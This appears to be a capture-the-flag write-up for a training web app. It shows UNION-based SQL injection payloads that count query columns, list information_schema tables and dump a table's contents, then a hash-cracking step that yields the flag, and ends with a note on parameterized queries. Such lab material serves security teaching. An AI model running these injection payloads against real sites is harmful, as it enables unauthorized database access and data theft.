 # SQL INJECTION IMAGE

## The flag

```
THE FLAG IS : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find it ?

On the page http://{IP_ADDRESS}/index.php?page=searchimg

- To get the request columns number
```
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns
```

- To get the users columns names
```
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> id, url, title, comment
```

- To see all user's data
```
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
-> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
```
md5_decrypt('1928e8083cf461a51303633093573c46')
> albatroz
lower('albatroz')
> albatroz
sh256('albatroz')
> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to use it ?
Dump and get all database infos

## How to avoid it ?
> Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.

---

[RETURN](https://github.com/tillderoquefeuil/darkly)